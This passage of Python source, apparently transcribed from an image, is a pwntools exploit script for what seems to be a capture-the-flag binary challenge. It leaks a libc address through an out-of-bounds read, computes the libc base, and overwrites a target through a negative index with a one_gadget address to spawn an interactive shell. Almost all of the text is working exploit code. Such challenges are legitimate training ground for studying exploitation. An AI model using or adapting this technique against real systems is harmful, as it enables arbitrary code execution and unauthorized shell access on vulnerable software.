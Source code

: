 ```python
    p.sendline(target)
    p.recvuntil(b'at these coordinates: ')
    addr = p.recvline()
    addr = addr.rstrip(b'\n')
    addr = int(addr)
    return addr 

def write_target(target, contents):
    p.sendline(b'3')
    p.sendline(target)
    p.sendline(contents)

p.recv()
p.sendline(b'urmom')
libc_addr = print_target(b'13')
print(f'libc_start_main + 243 @ {hex(libc_addr)}')

libc_start_main = libc_addr - 243
libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(f'Libc base @ {hex(libc.address)}')

one_gadgets = [0xe6c7e, 0xe6c81, 0xe6c84]
shell = str(libc.address + one_gadgets[1]).encode()    

# gdb_script = "init-pwndbg\n" + f"break *{hex(int(shell))}"
# pwnlib.gdb.attach(p, gdb_script)
write_target(b'-3', shell)


p.interactive()
```
